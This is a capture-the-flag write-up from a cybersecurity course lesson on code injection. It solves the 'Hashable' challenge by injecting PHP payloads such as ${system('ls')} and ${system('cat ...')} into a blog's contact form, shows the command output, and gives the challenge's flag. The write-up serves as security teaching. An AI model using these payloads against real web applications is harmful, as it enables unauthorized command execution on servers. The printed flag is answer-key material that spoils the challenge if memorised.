


# Lesson 14: Code Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection)*

## Introduction

In this lesson, we will learn about Code Injection, and how can we use it to execute commands on the server.

> ### What is Code Injection?
>
> #### Code injection is a web security vulnerability that allows an attacker to execute arbitrary code on the host server that is running an application. Code injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Code injection attacks are possible mainly due to insufficient input validation

## Challenge

> Name:\
> *Hashable*

---

> Description:\
> *A famous enterprise blog was hacked, can you figure out how it was hacked?*

## Solution

In this challenge, we have a website, we need to get the flag.

So First of all, lets navigate to the contact page, and try to send a message to the admin.

That contains this payload:

```php
${system('pwd')}
```

After sending the request, we will get a response that says:

```html
/var/www/html Message successfully sent!
```

So, we can see that the website is using `system` function to execute the command, and we can use it to get the flag.

Lets try to send this payload to the website:

```php
${system('ls')}
```
After sending the request, we will get a response that says:

```html
about.php contact.php css flag_23894ABCX1.txt footer.php gulpfile.js header.php img index.php js package-lock.json package.json post.php scss vendor Message successfully sent!
```

Here is the flag file, lets read it:

```php
${system('cat flag_23894ABCX1.txt')}
```

After sending the request, we will get a response that says:

```html
18ab51f960bd149bcb2497b9998c752c Message successfully sent!
```

And Here is the flag.

## Flag

> 18ab51f960bd149bcb2497b9998c752c

## References

- [https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)
